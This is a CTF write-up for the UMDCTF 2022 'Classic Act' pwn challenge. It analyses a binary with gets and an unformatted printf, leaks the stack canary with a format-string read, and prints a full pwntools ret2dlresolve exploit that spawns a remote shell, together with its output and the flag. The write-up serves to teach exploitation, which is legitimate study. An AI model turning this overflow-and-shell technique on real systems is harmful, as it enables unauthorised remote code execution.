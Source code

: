 # UMDCTF 2022

## Classic Act 

> Pwning your friends is a class act. So why not do it to some random server?
> 
> **Author**: WittsEnd2
>
> `0.cloud.chals.io 10058`
>
> [`classicact`](classicact)

Tags: _pwn_ _x86-64_ _bof_ _ret2dlresolve_ _format-string_ _remote-shell_


## Summary

`printf` without a format-string + `gets`, basically makes this a choose your own adventure.

I solved this with _ret2dlresolve_.  Read [this](https://github.com/datajerk/ctf-write-ups/blob/master/redpwnctf2021/getsome_beginner-generic-pwn-number-0_ret2generic-flag-reader_ret2the-unknown/README.md) and follow the links there if you want to learn more about _ret2dlresolve_.

The short of it is, use `printf` to leak the canary, then `gets` to overflow the buffer for a ROP chain that uses _ret2dlresolve_.

60 second solve.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`gets` + Partial RELRO + No PIE = _ret2dlresolve_.  We'll just have to take care of that canary first.

### Ghidra Decompile

```c
bool vuln(void)
{
  int iVar1;
  long in_FS_OFFSET;
  char local_68 [16];
  char local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Please enter your name!");
  gets(local_68);
  puts("Hello:");
  printf(local_68);
  putchar(10);
  puts("What would you like to do today?");
  gets(local_58);
  iVar1 = strncmp(local_58,"Play in UMDCTF!",0xf);
  if (iVar1 != 0) {
    puts("Good luck doing that!");
  }
  else {
    puts("You have come to the right place!");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return iVar1 != 0;
}
```

The main vulnerability is `gets`, but there is a canary spoiling our fun; no worries, `printf` has no format string, so we can use it to leak the canary from the stack:

```
0x00007fffffffe2e0│+0x0000: 0x0000000000000000	 ← $rsp
0x00007fffffffe2e8│+0x0008: 0x00007fff00000000
0x00007fffffffe2f0│+0x0010: 0x0000000068616c62 ("blah"?)	 ← $rdi
0x00007fffffffe2f8│+0x0018: 0x0000000000000000
0x00007fffffffe300│+0x0020: 0x00007ffff7fad4a0  →  0x0000000000000000
0x00007fffffffe308│+0x0028: 0x00007ffff7e516bd  →  <_IO_file_setbuf+13> test rax, rax
0x00007fffffffe310│+0x0030: 0x00007ffff7fac6a0  →  0x00000000fbad2887
0x00007fffffffe318│+0x0038: 0x00007ffff7e47dbc  →  <setbuffer+204> test DWORD PTR [rbx], 0x8000
0x00007fffffffe320│+0x0040: 0x00000000000000c2
0x00007fffffffe328│+0x0048: 0x0000000000401340  →  <__libc_csu_init+0> endbr64
0x00007fffffffe330│+0x0050: 0x00007fffffffe350  →  0x00007fffffffe370  →  0x0000000000000000
0x00007fffffffe338│+0x0058: 0x0000000000401110  →  <_start+0> endbr64
0x00007fffffffe340│+0x0060: 0x00007fffffffe460  →  0x0000000000000001
0x00007fffffffe348│+0x0068: 0xd9d9ed67a31c1800
0x00007fffffffe350│+0x0070: 0x00007fffffffe370  →  0x0000000000000000	 ← $rbp
```

This is the stack just before `printf` is called.  The canary is just above the preserved base pointer (`$rbp`).  You can verify this with `canary`:

```
gef➤  canary
[+] Found AT_RANDOM at 0x7fffffffe6c9, reading 8 bytes
[+] The canary of process 28661 is 0xd9d9ed67a31c1800
```

To compute the parameter to pass to `printf`:

```
gef➤  p/d 0x68 / 8 + 6
$1 = 19
```

The canary is `0x68` bytes from `rsp` (see stack dump above).  Since this is a 64-bit system, just divide by 8 and add 6 (since the previous 5 parameters are in registers, Google for _Linux x86\_64 ABI_ or read the `printf` disassembly or some of my other _format-string_ write ups for details on why _6_).

The rest is cooker cutter ret2dlresolve.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./classicact',checksec=False)

dl = Ret2dlresolvePayload(binary, symbol='system', args=['sh'])

rop = ROP(binary)
ret = rop.find_gadget(['ret'])[0]
rop.raw(ret)
rop.gets(dl.data_addr)
rop.ret2dlresolve(dl)

if args.REMOTE:
    p = remote('0.cloud.chals.io', 10058)
else:
    p = process(binary.path)

p.sendlineafter(b'name!\n',b'%19$p')
p.recvline()
canary = int(p.recvline().strip().decode(),16)
log.info('canary: {x}'.format(x = hex(canary)))

payload  = b''
payload += (0x58 - 0x10) * b'A'
payload += p64(canary)
payload += (0x58 - len(payload)) * b'B'
payload += rop.chain()
payload += b'\n'
payload += dl.payload

p.sendlineafter(b'today?\n',payload)
p.interactive()
```

Not a lot to explain here.  Just create the _ret2dlresolve_ payload, connect and leak the canary, then write out garbage with the canary inserted into the correct place followed by _ret2dlresolve_ payload, and win!

> If you do not understand `(0x58 - 0x10)` et al, read the decompile carefully or some of my other write ups.  Or look at the stack.  (it's just distance from `local_58` (`gets` buffer) to `local_10` (the canary)).

Output:

```bash
# ./exploit.py REMOTE=1
[*] Loaded 14 cached gadgets for './classicact'
[+] Opening connection to 0.cloud.chals.io on port 10058: Done
[*] canary: 0x5fc49ac400614c00
[*] Switching to interactive mode
Good luck doing that!
$ cat flag
UMDCTF{H3r3_W3_G0_AgAIn_an0thEr_RET2LIBC}
```

Or, is it?